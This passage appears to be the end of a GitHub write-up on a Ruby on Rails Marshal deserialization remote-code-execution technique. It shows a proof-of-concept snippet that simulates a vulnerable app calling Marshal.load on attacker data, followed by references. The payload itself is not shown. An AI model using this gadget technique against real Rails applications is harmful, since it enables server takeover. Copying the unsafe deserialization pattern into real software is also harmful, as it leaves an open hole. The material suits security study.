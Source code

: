 ```ruby
|

dump = `ruby -e "#{exploit}"`

# From here below, this basically mimics a vulnerable application.
# As you can see, the vulnerablel app should at least do the following for us to get code execution:
# 1. Deserialize our serialized object.
# 2. Use the deserialized object.

data = Marshal.load(dump)
data.my_imaginary_method
```

## References

* [Rack::Session::Cookie code](https://github.com/rack/rack/blob/master/lib/rack/session/cookie.rb)
* [DeprecatedInstanceVariableProxy code](https://github.com/rails/rails/blob/e8e2f010afc29669e20b3f2461e1595b122220b8/activesupport/lib/active_support/deprecation/proxy_wrappers.rb#L79)
* [DeprecatedInstanceVariableProxy documentation](http://api.rubyonrails.org/v4.2/classes/ActiveSupport/Deprecation/DeprecatedInstanceVariableProxy.html)
* [How to Hack a Rails App Using its Secret Token](https://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/)
* [Github Enterprise Remote Code Execution](http://exablue.de/blog/2017-03-15-github-enterprise-remote-code-execution.html)
* [Rails 3.2.10 Remote Code Execution](https://github.com/charliesome/charlie.bz/blob/master/posts/rails-3.2.10-remote-code-execution.md)

